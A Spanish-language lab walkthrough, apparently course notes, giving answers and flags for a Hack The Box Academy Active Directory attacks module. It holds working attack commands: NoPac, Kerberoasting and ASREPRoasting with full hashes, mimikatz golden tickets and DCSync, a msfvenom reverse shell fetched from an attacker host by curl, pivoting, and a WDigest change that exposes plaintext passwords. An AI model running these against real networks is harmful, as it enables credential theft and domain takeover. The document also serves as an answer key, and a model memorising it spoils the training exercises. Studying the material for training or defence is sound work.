mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
```

La contraseña: **SQL1234!**

> La herramienta mssqlclient se utiliza para interactuar con bases de datos Microsoft SQL Server

* Al añadir `-windows-auth`, le dices a `mssqlclient.py` que utilice el protocolo **NTLM** o **Kerberos** para validar tus credenciales contra el Controlador de Dominio, en lugar de buscar el usuario dentro del motor de SQL.

```
enable_xp_cmdshell
xp_cmdshell type C:\Users\damundsen\Desktop\flag.txt
```

* **enable_xp_cmdshell**: Una vez ejecutado, el servidor SQL ya no solo procesa datos, sino que puede ejecutar órdenes de sistema (como crear usuarios, leer archivos o borrar carpetas).
* **xp_cmdshell type C:\Users\damundsen\Desktop\flag.txt**

	Este es el comando que finalmente extrae la información que buscas.

	- **`xp_cmdshell`**: Es el prefijo que le dice a SQL: _"Lo que viene a continuación no es una consulta de base de datos, es un comando para la terminal de Windows"_.
    
	- **`type`**: Es el comando de Windows (equivalente al `cat` de Linux) que se usa para mostrar el contenido de un archivo de texto en la pantalla.
    
	- **`C:\Users\damundsen\Desktop\flag.txt`**: Es la ruta absoluta donde se encuentra el archivo de la "bandera" o flag.

<p align="center"> 

</p>

answer: **1m_the_sQl_@dm1n_n0w!**

### Bleeding Edge Vulnerabilities

1. **Which two CVEs indicate NoPac.py may work? (Format: ####-#####&####-#####, no spaces)**

SSH to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

En esta ocasión no hace falta meternos dentro de la maquina, con solo leer es suficiente conseguir la respuesta, los CVE que indica son: 2021-42278 and 2021-42287

El formato de la respuesta seria 2021-42278&2021-42287

answer: **2021-42278&2021-42287**

2. **Apply what was taught in this section to gain a shell on DC01. Submit the contents of flag.txt located in the DailyTasks directory on the Administrator's desktop.**

Authenticate to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
sudo python3 /opt/noPac/scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-lda
```

> Este comando específico busca verificar si un controlador de dominio es vulnerable al exploit **NoPac** (Samelot), el cual permite a un usuario con pocos privilegios convertirse en **Domain Admin** en cuestión de segundos.

<p align="center"> 

</p>

Lo que se contempla es la **confirmación de la vulnerabilidad**. El escáner ha demostrado que:

1. Tiene permiso para crear cuentas de máquina.
2. El Domain Controller acepta tickets con nombres malformados (el fallo de seguridad).

```
sudo python3 /opt/noPac/noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```

Acabamos de realizar una escalada de privilegios completa (Local User → Domain Admin) explotando una confianza ciega del protocolo Kerberos.

Dentro del sistema escribimos lo siguiente:

```
type \Users\Administrator\Desktop\DailyTasks\flag.txt
```

answer: **D0ntSl@ckonN0P@c!**

### Miscellaneous Misconfigurations

1. **Find another user with the passwd_notreqd field set. Submit the samaccountname as your answer. The samaccountname starts with the letter "y".**

RDP to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">Academy_student_AD!</font>"

```
Import-Module .\PowerView.ps1
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
```

El objetivo del comando es encontrar **"victimas fáciles"**: usuarios que tienen una configuración de seguridad tan débil que **no necesitan contraseña para iniciar sesión.**

<p align="center"> 

</p>

answer: **ygroce**

2. **Find another user with the "Do not require Kerberos pre-authentication setting" enabled. Perform an ASREPRoasting attack against this user, crack the hash, and submit their cleartext password as your answer.**

Para encontrar otro usuario con el protocolo **DONT_REQ_PREAUTH** usaremos el siguiente comando:

```
Import-Module .\PowerView.ps1
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl 
```

<p align="center"> 

</p>

```
.\Rubeus.exe asreproast /user:ygroce /nowrap /format:hashcat
```

Con esta herramienta conseguimos el hash del TGS del usuario ygroce

> $krb5asrep$23$ygroce@INLANEFREIGHT.LOCAL:E468088D4D85FB58792846047417113A$D02788836F50C06391D0540ACA2133B2AFA76B383F2B9918CFFC108B79497DFFBACE5394AC54A1C18810E058B3DE0DF944DD473C93FE07E136850255E101FF0E0DB84F1B6BCCAA817D90EB75EF5AC551D6772251DF0A0075C51BFF0917A52A393708B89AC8B900CC084DB1253BAB41720B8910D57BAB6F6EE87988759F941444D1C65F1C66A2CB2477DFD529CA8A0A722656E83DF587F993A21A24E780FB6284B6B2E50B24DD321A6F93FEA5557C250F92202D3D3029DA70DD7D10EBC7D516BD6EB94166BA09F0FF5C7C05CD2E5EA86C7EF9645DDBD743A92F0B9F5D76040C8C07D0D07F72392DA1CCFE0D6D4CE020E1FD92A69696C0A2DC488B

Lo guardamos en un archivo llamado **asr2** yusamos hascat.

```
hashcat -m 18200 asr2 /usr/share/wordlists/rockyou.txt
```

<p align="center"> 

</p>

answer: **Pass@word**

## Why So Trusting?

### Domain Trusts Primer

1. **What is the child domain of INLANEFREIGHT.LOCAL? (format: FQDN, i.e., DEV.ACME.LOCAL)**

RDP to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">Academy_student_AD!</font>"

```
Import-Module ActiveDirectory
Get-ADTrust -Filter *
```

Importamos la herramienta AD, luego con el siguiente comando intentamos buscar todas las relaciones que puedes tener el dominio **INLANEFREIGHT.LOCAL**

<p align="center"> 

</p>

answer: **LOGISTICS.INLANEFREIGHT.LOCAL**

2. **What domain does the INLANEFREIGHT.LOCAL domain have a forest transitive trust with?**

> ¿Qué es la Confianza Transitiva?

> En Active Directory, significa que si el **Dominio A** confía en el **Dominio B**, y el **Dominio B** confía en el **Dominio C**, entonces el **Dominio A** confía automáticamente en el **Dominio C**.

> Tipos de confianza: 

> Parent-Child, Tree-Root, Shortcut, External

```
Import-Module ActiveDirectory
Get-ADTrust -Filter *
```

<p align="center"> 

</p>

answer: **FREIGHTLOGISTICS.LOCAL**

3. **What direction is this trust?**

```
Import-Module ActiveDirectory
Get-ADTrust -Filter *
```

<p align="center"> 

</p>

Answer: **Bidirectional**

### Attacking Domain Trusts - Child -> Parent Trusts - from Windows

1. **What is the SID of the child domain?**

RDP to with user "<font color="#00b050">htb-student_adm</font>" and password "<font color="#c00000">HTB_@cademy_stdnt_admin!</font>"

> Un **dominio hijo** funciona como una sucursal autónoma dentro de una empresa, que posee su propio "apellido" o identidad única (**SID**) para gestionar a sus usuarios de forma independiente, pero que se mantiene conectada al **dominio padre** mediante un "puente" automático (confianza transitiva). Esto permite que, aunque el hijo tenga su propia administración y fronteras de seguridad, los usuarios puedan moverse y compartir recursos por todo el bosque de Active Directory de manera fluida sin necesidad de configuraciones manuales complejas.

 Accedemos a la carpeta de **Tools** 

```
Import-Module .\PowerView.ps1
Get-DomainSID
```

* **Get-DomainSID**: Te devolverá el SID del dominio en el que está iniciada tu sesión actual

<p align="center"> 

</p>

answer: **S-1-5-21-2806153819-209893948-922872689**

2. **What is the SID of the Enterprise Admins group in the root domain?**

```
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```

> Con este comando obtenemos el SID del Admins group

<p align="center"> 

</p>

answer: **S-1-5-21-3842939050-3880317879-2865463114-519**

3. **Perform the ExtraSids attack to compromise the parent domain. Submit the contents of the flag.txt file located in the c:\ExtraSids folder on the ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL domain controller in the parent domain.**

En este punto, hemos recopilado los siguientes puntos de datos:

El hash KRBTGT para el dominio hijo: `9d765b482771505cbe97411065964d5f`
El SID para el dominio hijo: `S-1-5-21-2806153819-209893948-922872689`
El nombre de un usuario objetivo en el dominio hijo (no necesita existir para crear nuestra Golden Ticket!): Elegiremos un usuario falso: `hacker`
El FQDN del dominio hijo: `LOGISTICS.INLANEFREIGHT.LOCAL`
El SID del grupo de Administradores de Empresas del dominio raíz: `S-1-5-21-3842939050-3880317879-2865463114-519`

Accedemos a la siguiente ruta para hacer funcionar la herramienta mimikatz **tools/mimikatz/x64**

```
.\mimikatz.exe
kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```

Es un **ataque de suplantación de identidad de servicio de confianza** que resulta en una autorización arbitraria y total, eludiendo todos los controles de autenticación del protocolo Kerberos al poseer el material criptográfico base del dominio

<p align="center"> 

</p>

Comprobamos si se creo el ticket

```
klist
```

<p align="center"> 

</p>

Una vez creado el ticket golden del usuario **hacker** podemos leer la **flag.txt**

```
cat \\academy-ea-dc01.inlanefreight.local\c$\ExtraSids\flag.txt
```

answer: **f@ll1ng_l1k3_d0m1no3$**

### Attacking Domain Trusts - Child -> Parent Trusts - from Linux

1. **Perform the ExtraSids attack to compromise the parent domain from the Linux attack host. After compromising the parent domain obtain the NTLM hash for the Domain Admin user bross. Submit this hash as your answer.**

SSH to with user "<font color="#92d050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```

contraseña: **HTB_@cademy_stdnt_admin!**

<p align="center"> 

</p>

Hash NT del usuario krbtgt: **9d765b482771505cbe97411065964d5f**

A continuación, necesitamos obtener el SID del dominio de la hijo 

```
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240
```

contraseña: **HTB_@cademy_stdnt_admin!**

> La función principal de este ataque es que te revela la cadena base del dominio, la cual es necesaria para cualquier ataque de tickets.

<p align="center"> 

</p>

Sid del dominio hijo: **S-1-5-21-2806153819-209893948-922872689**

A continuación, usaremos la misma herramienta pero con la variación de obtener el SID del usuario administrador del dominio. 

```
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```

<p align="center"> 

</p>

Sin del dominio padre: **S-1-5-21-3842939050-3880317879-2865463114**

```
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```

Con este comando obtenemos un archivo con la extensión .ccache.

<p align="center"> 

</p>

Para usar este archivo usaremos el siguiente comando:

```
export KRB5CCNAME=hacker.ccache
```

Para comprobar si ha funcionado nos intentaremos logear

```
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```

<p align="center"> 

</p>

A continuación, usaremos el siguiente comando para obtener el hash del usuario administrador:

```
secretsdump.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5 | grep "bross"
```

<p align="center"> 

</p>

answer: **49a074a39dd0651f647e765c2cc794c7**

## Breaking Down Boundaries

### Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows 

1. **Perform a cross-forest Kerberoast attack and obtain the TGS for the mssqlsvc user. Crack the ticket and submit the account's cleartext password as your answer.** 

RDP to with user "<font color="#92d050">htb-student</font>" and password "<font color="#ff0000">Academy_student_AD!</font>"

```
xfreerdp /u:htb-student /p:Academy_student_AD! /v:10.129.63.153 /size:100% /dynamic-resolution +clipboard
```

Una vez dentro del sistema, abrimos la power shell, y dentro de la carpeta **tools** ingresamos los siguientes comandos: 

```
Import-Module .\PowerView.ps1
Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
```

Este comando lo que hace es ver la SPN del dominio FREIGHTLOGISTICS.LOCAL

<p align="center"> 

</p>

```
.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
```

Usamos esta herramienta para obtener el hash de mssqlsvc

> $krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$MSSQLsvc/sql01.freightlogstics:1433@FREIGHTLOGISTICS.LOCAL*$6AC2FBE5E8968D594ED9F1CA4EC64008$38F5E5077E18CC8D88E9923A48316C2EEE7681FCB0F81AD126AF35AA3C834D12A8D739B78C82265E26453FDAF395BF0661C2D355C2A883F5C06CC91B32AD53446B1798ED33B1F4AC9D017918F624AD34008CF0B6FC56800558116EC1495359741FA9019A32641D154FBB3F8C7E696E564E049DAAC8EB0D75408DD4A377A28C36C21652AAF74CE014EAD9E23F42A4F147C4723EA1AF778B1CDA806A506BF8A9FB7AF76866C400C2C6E220066C8011F7D7AB077342D8846F520EB38370D1DD7DF88823E593299CBFA9CC16C771983825ADA37E18496D2598F2026F8610980448D2F4C2279EAFCAB74EABCD58258B0FE932830F3898C74B5BB5B21C86349B2ABAEBF432751231EB83BF8E0E61EF758D8F6134FA4D0AD3A78BE09FE439CBCA3FE6520D05BA87AAF662DA299CCF9924FD7FF42D77778A7B0C8BB7BE139D9BC680F421DD88ADCC075483E8995CEA54B816A6F42F5CDB3555D26ABF084A6E4C7F12065A56E500E6963C628DDD3C6F3933B236F87439F088D4CA9D72E1BCB3A375C8809740424483AECFE591C8EC9B1FFF585934697A4876B636E3232ED3460C348F5A7A52EC15CF0285DA421487FFFB9D13B62E381CB5ADA6141838507374675A613209455EB54C44AFEBD211ECC7D8773305A3DFBEDC45C84BD02DEB2D7145EC372CEF4F02B786EEFCF37259D85101B1662BD724EF0417C8D1D56B008DD5F593176E6D682011D198AEF98887DC292F8DD8AC67E3AE63D94982E537372697C8B42C80ED2E206593FE74BB1A9DF4B6C2E054CF0AB00034C5A4AF8CB9FFAADD774E2A27F0660D3538899D6298F2FF190A2C86BC858C30CD8CA0CF67EB0DE170DC4A859B03F171D4CF55E584BE0FB3E28E8B5028279D8BB796201CE0DD2E95EDF40DB8860D42662421649F066E1B0C69C8BC2B7057829E5C33E6CB1F0F91E6CF9F4FB42C1D35A1FC1919E1512471FB67A78ECA4BEE52BBBE97F1F017617ACADFD6193EB03206D277F27804F3110BB042035327DD2CAB17A3968E4AEDD1502A165677DE3CBD00F52F5811AC4DC2737D0719943F3DAE91C7F4D3963BB0E22D697C13B13871CC4A561801AA865C48280848254C29EAF20CDBC18A19904A43C3CF520EAA5D238DF93D277C5F87C05F28ABDD5AAEBEC248AF73A55A20D27D87BBB9FD3430627184686F6ECC1076AC84A0856E28D3C0E8CF45602EAB048BA498D4CE0CBA8D0735292C07695460010D7E459F5310B72B0F4F3158CA861363D979B9A5E2B261E3FEA3018DFC83EB8B7A71BBAA9277FD242A4BD834F13A97167710A4E86E03A4837C2574E83DD2FA980FF42CD49136231F56CEA952FA2564D4357B77CBCAAD2C3A05A5C91A902D9681DA52D8B6F7C7908B3C84EBFC591A04B8B969370D2D93E7AEC04453F86D84BB3DF559070B8920729CB353A7E5DDA2F4CC5266D2C435FDF702A38FA77B74D7AEE3C26D9E1A61C74644071AA3AEEFBDDC03AD9E29F27A32D5FC0F0D56CE8BDE89C7686FA9F7D45F09B818093E9DBE1DA2E5403B034F48D3EAB78B98A4E36464B91769315285163ED25811923BF58174C309F1E6D74FF4FC646898932FE624DDDA98645E0E74A1570A6284615081E52FE7457173440A9A364BCA146536E52EE38D6D635BB94D693C656B1E17B2D09C658698748C7C

Guardamos el hash dentro de un archivo llamado **tgs_mssqlsvc** usaremos la herramienta **hashcat** 

```
hashcat -m 13100 tgs_mssqlsvc /usr/share/wordlists/rockyou.txt
```

<p align="center"> 

</p>

answer: **1logistics**
### Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux

1. **Kerberoast across the forest trust from the Linux attack host. Submit the name of another account with an SPN aside from MSSQLsvc.**

SSH to with user "<font color="#00b050">htb-student</font>" and password "<font color="#ff0000">HTB_@cademy_stdnt!</font>"

```
xfreerdp /u:htb-student /p:'HTB_@cademy_stdnt!' /v:10.129.63.176 /size:100% /dynamic-resolution +clipboard
```

Dentro de la terminal ingresamos el siguiente comando:

```
GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
```

Contraseña: **transporter@4**

Este comando consigue listar usuarios que tienen TGS, solo se puede llevar acabo este ataque si conocemos las credenciales del usuario.

<p align="center"> 

</p>

answer: **sapsso**

2. **Crack the TGS and submit the cleartext password as your answer.**

```
GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
```

Al añadir el parámetro **`-request`** recibe el TGS de los usuarios 

> $krb5tgs$23$*sapsso$FREIGHTLOGISTICS.LOCAL$FREIGHTLOGISTICS.LOCAL/sapsso*$b309eefbe0f7ac66a98fd3f01464a61f$f9cb4219a3ccc090f33e2c6066abeae727a2a20e658229e280de501f81d286b57f3a5f566326c8474f009924844656dca470c82bcf58e0d5d2c63ea231300abf30514d443f3d6a74af06433358df9b789eb5712756e0d4d37a19482f5a4c6cbf50809c294fa046436e0a66e24b47d3657ef3f604ebc836ed7ae1b34a64c9d4d3de5a6c182ebce4a7a717a4c51aac24df26a9a3e15d5fe0b85b7cad8313f8156102a16e48e2f863938f4d6ccf415535e0213375725f435fc4e1a98270f7beca48f65fef6f7c785b6c62a13ebfa2b85e2254e3981cd6c290e0ec1a0ca913c9159048bf3e8f26f521f4ea7ec11c6f12b9474e8d69b8930116b72ba074c941d6f303ea43fad825e392b3dee8baceb83fa2d520226fa922107b98b96797ca92e1b907ff2193f0932979c1fc3014dd8edf7e96498a6254b0cd526e66287ce2b0b834220dff9d3391335f0d7bf59c4db2b9b883250f2d36103255aec46fd8af630d24f68eeb31f6005fb96fc84b6db1b7e0f99250717d6b275746432f17467df026f1c7d7b13a9aaaf67e9b1141d50e0287945f60b2407a423fb2c39281069e0d52b20bf4b8d750b5d63477bf601ddc2864b8b3ca0b55d834d6b129c374796927a6e1e7d5f8a0f28ee4e1577669a8a95d8d9d5b273a49ba5de8d0580ab4097a5680782c06c9ac342f9e46670f5620e16495d2e73ff7f245e6465558fd7d0dfab349ebc2d1ebd99c0be69971968863b72f12b9fa6f4c249efb20c4e7eee76b120541cd6a08614398d9ac53506eae90dfdd1e63ce203ca6a49df92d419fd1668eb95e9d55b5b4e7f72c3da3ab4ec30a1000dbd6b7050f8b239be8ce4ba018fafd5df610a133c0db0129841065e93880b6c01c4de67e9909370b3f3b56c9d44ac996e794ac9ac99c6e6ae5de6af01cb6727032ae6a3d9dade6f1ca44486acc1afb3c30552aca60b874c9964907186fa035a6f932a7751719f21963ed8d92aeb2e8ebae816d28a3d1383faae0a41a2add736ba93e3ea71f686831b790599801a2208411d9332bfb2ca5f0fb18ae7b40f0b14a8a30a9a935e5fe675034d411d1537780b665e33d89497c0b3d23a428495579b98919eb8b4fa650c91c69a08620be919adcb250b1c4d9f62bc6c3cd0dec446cd31e16711d149bc9cbc6356d36153ef1842c112cbdc95224df7476d610ef630ea866ca6d7ff8cb5d11c66e70c0763f8c3c1340d2d5a0481ba55cdd7b636fd1f4df38e15bd8653f95053c575cf0ef38edfb9034ec5998846f5ecd39bbd11a747f7ce16a90a73808eb5df63fff1a233a8e08f01e4ff2c59754977f9a5eb8bb39ba6275db3a6c9e7791069274031276aacc21355ab0086b7840e0f1fbec13e483da70599aa59f30bf44b2a2db0ee86bb4f90b674702eefd5ca62c53107f6c172c3f5042ddb852c710be266d9d2912b05a90d384f7946573dce248ee65f8

Guardamos el archivo en **tgs_sapsso** y usamos **hashcat**

```
hashcat -m 13100 tgs_sapsso /usr/share/wordlists/rockyou.txt
```

<p align="center"> 

</p>

answer: **pabloPICASSO**

3. **Log in to the ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL Domain Controller using the Domain Admin account password submitted for question #2 and submit the contents of the flag.txt file on the Administrator desktop.**

```
psexec.py ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL/sapsso:pabloPICASSO@172.16.5.238
```

Con este comando habilitamos la ejecución remota de comandos en Windows, solo lo pueden usar los usuarios administradores, por suerte **sapsso** lo es. 

<p align="center"> 

</p>

answer: **burn1ng_d0wn_th3_f0rest!**

## Skill Assessment - Final Showdown

### AD Enumeration & Attacks - Skills Assessment Part I

Credenciales: <font color="#00b050">admin</font>:<font color="#c00000">My_W3bsH3ll_P@ssw0rd!</font>

1. **Submit the contents of the flag.txt file on the administrator Desktop of the web server**

```
http://10.129.63.205/uploads/
```

**Antak.aspx** es una **Web Shell** (consola interactiva basada en web) diseñada específicamente para entornos Windows que utilizan el servidor web **IIS** (Internet Information Services).

Es parte de una suite de herramientas de seguridad muy famosa llamada **Nishang**, que se especializa en scripts de PowerShell para pruebas de penetración

<p align="center"> 

</p>

Ingresamos con las credenciales

<p align="center"> 

</p>

Estamos presente antes una web shell con el usuario **inetsrv** con permiso de administrador. 

```
type \Users\Administrator\Desktop\flag.txt
```

<p align="center"> 

</p>

answer: **JusT_g3tt1ng_st@rt3d!**

2. **Kerberoast an account with the SPN MSSQLSvc/SQL01.inlanefreight.local:1433 and submit the account name as your answer**

En primer lugar, deberíamos de saber información del sistema para preparar un payload para meternos dentro del sistema 

```
setspn -Q */*
```

Con este comando listamos todos los usuarios spn

<p align="center"> 

</p>

answer: **svc_sql**

3. **Crack the account's password. Submit the cleartext value.**

Hay mejorar la sesión para poder seguir respondiendo esta pregunta. Por tanto, nos haremos una reverse hacia nuestra maquina atacante, antes de nada necesito saber el sistema de la maquina objetivo.

```
systeminfo
```

<p align="center"> 

</p>

Como estamos antes un windows x64 creamos un payload con msfvenom para cobrar la sesión a nuestra maquina atacante.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.77 LPORT=4444 -f exe -o reverse.exe
```

<p align="center"> 

</p>

Una vez obtenido la **reverse.exe** la idea es subirlo a la web shell, preparamos el archivo para subirlo 

```
python3 -m http.server 80
```

Luego en la webshell escribimos lo siguiente:

```
curl http://10.10.14.77/reverse.exe -O C:\Windows\System32\reverse.exe
```

Con esto nos traemos el payload, ahora en metasploit preparamos el puerto de escucha.

```
use exploit/multi/handler
set LHOST 10.10.14.77
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

<p align="center"> 

</p>

Estaremos escuchando... En la web shell activamos el payload que recien subimos

```
\Windows\System32\reverse.exe
```

<p align="center"> 

</p>

La pagina quedará como cargando, ahi es cuando nos iremos a metasploit y.... 

<p align="center"> 

</p>

Conexión exitosa, dentro del meterpreter escribimos:

```
shell
powershell
```

En la kali tiene instalado el archivo powerview.ps1, por tanto nos los pasamos a nuestra maquina objetivo

<p align="center"> 

</p>

**Por si acaso le di permiso de ejecución**

```
curl http://10.10.14.77/powerview.ps1 -O C:\tools\powerview.ps1
```

<p align="center"> 

</p>

```
Import-Module .\powerview.ps1
Get-DomainUser -Identity svc_sql | Get-DomainSPNTicket -Format Hashcat
```

<p align="center"> 

</p>

Guardamos el hash en el archivo **hash_svc** usaremos el comando hashcat para cracear su contraseña. 

```
hashcat -m 13100 hash_svc /usr/share/wordlists/rockyou.txt
```

answer: **lucky7**

4. **Submit the contents of the flag.txt file on the Administrator desktop on MS01**

```
net use \\MS01\c$ /user:INLANEFREIGHT.LOCAL\svc_sql lucky7
type \\ms01\c$\Users\Administrator\Desktop\flag.txt
```

Usamos esta herramienta para conectarnos y consultar recursos compartidos en una red. Como conocemos las credenciales del usuario svc_sql. Ten en cuenta que para llevar esto acabo el usuario debe de ser administrador local en **MS01**

<p align="center"> 

</p>

answer: `spn$_r0ast1ng_on_@n_0p3n_f1re`

5. **Find cleartext credentials for another domain user. Submit the username as your answer.**

En primer lugar deberiamos saber la ip del dominio MS01.INLANEFREIGHT.LOCAL que es donde se ubica el usuario svc_sql 

```
ping MS01.INLANEFREIGHT.LOCAL
```

<p align="center"> 

</p>

La ip del dominio es **172.16.6.50**

**A continuación, debemos de configurar el proxy (Port Forwarding) con metasploit.**

En nuestra sesión actual le damos **control z** (la suspendemos) ya que la idea es traernos ese dominio a mi maquina objetivo

<p align="center"> 

</p>

Nos situamos en el módulo **auxiliary/server/socks_proxy** 

```
set SRVPORT 9050
set version 4a
exploit
```

<p align="center"> 

</p>

Nos situamos ahora en el módulo **post/multi/manage/autoroute**

```
set SESSION 3
set SUBNET 172.16.6.0
exploit
```

Me gustaría saber que puerto tengo abierto en la ip **172.16.6.50**

```
proxychains nmap -p 3389,5985  -Pn -sT -v 172.16.6.50
```

<p align="center"> 

</p>

Luego reanudamos la sesión de meterpreter

```
sessions -i 1
portfwd add -l 1234 -p 3389 -r 172.16.6.50
```

<p align="center"> 

</p>

Perfecto hasta ahora nos hemos traído el puerto 3389 del dominio que vimos al principio a nosotros.

```
xfreerdp /v:localhost:1234 /u:"inlanefreight\svc_sql" /p:lucky7 /dynamic-resolution /drive:Shared,/opt/Tools/Windows
```

Este comando con la herramienta xfreerdp tiene algo especial y es que también estamos compartiendo una carpeta compartida conectada con nuestra kali. La idea traernos la herramienta necesarias para nuestro maquina objetivo, entre ellas **mimikatz**, para que se crea correctamente la carpeta compartida tenemos que tener creada en nuestra kali esta misma ruta **/opt/Tools/Windows**. 

<p align="center"> 

</p>

Importante abrimos la powershell como administrador. Luego nos traemos la herramienta **mimikatz** a la carpeta compartida a **tools** 

```
Move-Item -Path "\\tsclient\Shared\mimikatz.exe" -Destination "C:\tools\"
```

```
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

<p align="center"> 

</p>

6. **Submit this user's cleartext password.**

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 
```

 - **Qué hace:** Estás modificando el registro de Windows para habilitar **WDigest**.

- **Por qué es importante:** Por defecto, las versiones modernas de Windows (desde Windows 8.1 y Server 2012 R2) cifran las contraseñas en memoria por seguridad. Al poner este valor en `1`, le estás diciendo a Windows: _"La próxima vez que alguien inicie sesión, guarda su contraseña en texto plano (sin cifrar) en la memoria RAM"_.

```
shutdown.exe /r /t 0 /f
```

Reinicia la maquina 

**Recordemos iniciar powershell como administrador**

```
./mimikatz.exe  
privilege::debug  
sekurlsa::logonpasswords
```

<p align="center"> 

</p>

answer: **Sup3rS3cur3D0m@inU2eR**

7. **What attack can this user perform?**

```
Move-Item -Path "\\tsclient\Shared\powerview.ps1" -Destination "C:\tools\"
```

```
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid tpetty
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```

Este comando busca **qué permisos específicos tiene un usuario o grupo concreto sobre cualquier objeto del dominio.**

<p align="center"> 

</p>

Mirando la imagen, sabemos que ese usuario (identificado por el SID terminado en `-4607`) tiene los permisos necesarios porque aparecen tres privilegios específicos sobre el objeto dominio (`DC=INLANEFREIGHT,DC=LOCAL`).

Para que un ataque DCSync sea posible, el atacante necesita **dos privilegios clave**:
**Los privilegios críticos en la imagen:**

* *`DS-Replication-Get-Changes`**: Permite al usuario solicitar actualizaciones de replicación.

*  **`DS-Replication-Get-Changes-All`**: Este es el más importante. Permite replicar **todos** los datos de los objetos, incluyendo los hashes de las contraseñas (`unicodePwd`).

* **`DS-Replication-Get-Changes-In-Filtered-Set`**: (Opcional para DCSync estándar, pero aparece en tu salida). Permite replicar un conjunto filtrado de atributos.

answer: **DCSync**

8. **Take over the domain and submit the contents of the flag.txt file on the Administrator Desktop on DC01**

Recordemos que la contraseña del usuario tpetty es **Sup3rS3cur3D0m@inU2eR**

```
runas /user:INLANEFREIGHT\tpetty powershell
```

Una vez iniciado nos traemos la herramienta mimikatz 

```
Move-Item -Path "\\tsclient\Shared\mimikatz.exe" -Destination "C:\tools\"
.\mimikatz.exe
```

<p align="center"> 

</p>

```
privilege::debug
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```

<p align="center"> 

</p>

El hash de NTLM del usuario administrador es: **27dedb1dab4d8545c6e1c66fba077da0**

Recuerda que antes hicimos la ruta automática para escanear puertos en la máquina MS01, ya que el DC también está en la misma subred. Como solo tenemos el hash del administrador y la única manera de acceder es mediante la herramienta **evil-winrm**

Para obtener la ip del dominio haremos lo siguiente:

```
ping DC01
```

<p align="center"> 

</p>

De todos con el siguiente comando podemos visualizar que puertos tiene abierto la ip **172.16.6.3**

```
proxychains nmap -p 3389,5985  -Pn -sT -v 172.16.6.3p 3389,5985  -Pn -sT -v 172.16.6.3
```

<p align="center"> 

</p>

Nos vamos a metasploit y añadimos el puerto 5985 de la ip 172.16.6.3 a nuestra máquina atacante.

```
portfwd add -l 9999 -p 5985 -r 172.16.6.3
```

<p align="center"> 

</p>

```
evil-winrm -i localhost --port 9999 -u Administrator -H 27dedb1dab4d8545c6e1c66fba077da0
```

<p align="center"> 

</p>

```
type /Desktop/flag.txt
```

answer: **r3plicat1on_m@st3r!**
### AD Enumeration & Attacks - Skills Assessment Part II

1. **Obtain a password hash for a domain user account that can be leveraged to gain a foothold in the domain. What is the account name?**

SSH to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.64.129 /dynamic-resolution
```

Dentro del terminal del sistema, ejecutamos el comando:

```
ip a
```

<p align="center"> 

</p>

Con esto detectaremos nuestra ip objetivo. 

```
sudo responder -I ens224
```

Usaremos responder con la suerte de obtener u hash a cambio de un usuario.

<p align="center"> 

</p>

Esto significa que el hash ha sido capturado por **AB920**

En la siguiente ruta comprobaremos si se captura algún hash 

```
cat /usr/share/responder/logs/SMB-NTLMv2-SSP-172.16.7.3.txt
```

<p align="center"> 

</p>

Se captura muchas mas hashes que aparece en la foto.

answer: **AB920**

2. **What is this user's cleartext password?**

